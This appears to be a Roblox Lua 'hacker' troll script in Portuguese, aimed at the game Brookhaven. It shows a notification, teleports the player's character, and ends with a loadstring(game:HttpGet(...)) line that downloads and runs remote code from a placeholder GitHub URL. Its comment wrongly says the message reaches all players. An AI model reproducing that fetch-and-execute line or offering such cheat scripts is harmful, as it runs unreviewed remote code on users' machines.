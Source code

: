 # GP-HACKER-
GPS OFICIAL-- SCRIPT GP HACKER SUPREMO
-- Criado por: Guerreiro GP

local Players = game:GetService("Players")
local LocalPlayer = Players.LocalPlayer

-- Mensagem quando o script iniciar
print("GP Hacker Supremo iniciou com sucesso! Dominando o Brookhaven!!")

-- Função de aviso
function mandarAviso(mensagem)
    game.StarterGui:SetCore("SendNotification", {
        Title = "GP Hacker Ativo!";
        Text = mensagem;
        Duration = 5;
    })
end

-- Manda uma mensagem para todo mundo
mandarAviso("O GP HACKER chegou no servidor! Preparem-se XDDDD")

-- Aqui você pode colocar mais trollagens:
-- Exemplo: Teleportar para o céu
if LocalPlayer.Character and LocalPlayer.Character:FindFirstChild("HumanoidRootPart") then
    LocalPlayer.Character.HumanoidRootPart.CFrame = CFrame.new(0, 1000, 0)
end 
loadstring(game:HttpGet("https://raw.githubusercontent.com/SEUNOME/SEU_REPOSITORIO/main/GP_Super_Script.lua"))()
